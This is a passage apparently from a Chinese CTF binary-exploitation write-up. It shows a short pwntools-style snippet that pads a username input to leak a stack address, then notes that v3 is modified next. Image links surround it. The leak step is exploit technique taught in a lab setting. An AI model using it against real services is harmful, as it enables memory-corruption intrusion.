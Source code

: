 ```plain
ru('Username :')
pl='admin'
pl=pl.ljust(24,'a')
s(pl)
ru('adminaaaaaaaaaaaaaaaaaaa')
stack=u32(r(4))
leak('stack ',stack)
```

[![](assets/1705903019-2a12f671a2f8783d55e706e070b10baa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192448-856882a2-b786-1.png)

[![](assets/1705903019-71262271dc74dfb5a05e8a5987765f43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192453-8811791e-b786-1.png)  
泄露出了栈地址，然后再去修改v3

[![](assets/1705903019-30618248792bc571aae200b115d15f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192501-8cd0c50e-b786-1.png)  